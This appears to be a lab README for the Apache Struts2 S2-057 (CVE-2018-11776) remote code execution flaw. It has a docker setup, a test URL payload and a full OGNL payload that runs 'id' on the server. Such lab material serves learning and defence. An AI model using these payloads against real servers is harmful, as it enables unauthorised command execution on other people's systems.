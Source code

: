 # Struts2 S2-057 Remote Code Execution Vulnerablity(CVE-2018-11776)

Affected Version: <= Struts 2.3.34, Struts 2.5.16

Details:

 - https://cwiki.apache.org/confluence/display/WW/S2-057
 - https://lgtm.com/blog/apache_struts_CVE-2018-11776
 - https://xz.aliyun.com/t/2618
 - https://mp.weixin.qq.com/s/iBLrrXHvs7agPywVW7TZrg

## Setup

Start the Struts 2.3.34 environment:

```
docker-compose up -d
```

After the environment is started, visit `http://your-ip:8080/showcase/` and you will see the Struts2 test page.

## Exploit

S2-057 requires the following conditions:

  - `alwaysSelectFullNamespace` is true
  - The action element does not have the namespace attribute set, or a wildcard is used

The namespace will be passed by the user from uri and parsed as an OGNL expression, eventually cause remote code execution vulnerablity.

Payload:

```
http://your-ip:8080/struts2-showcase/$%7B233*233%7D/actionChain1.action
```

![](1.png)

It can be seen that the result of 233*233 has been returned in the Location header.

Use payload from [S2-057 vulnerability analysis and POC](https://mp.weixin.qq.com/s/iBLrrXHvs7agPywVW7TZrg):

```
${
(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#ct=#request['struts.valueStack'].context).(#cr=#ct['com.opensymphony.xwork2.ActionContext.container']).(#ou=#cr.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ou.getExcludedPackageNames().clear()).(#ou.getExcludedClasses().clear()).(#ct.setMemberAccess(#dm)).(#a=@java.lang.Runtime@getRuntime().exec('id')).(@org.apache.commons.io.IOUtils@toString(#a.getInputStream()))}
```

Result:

![](2.png)
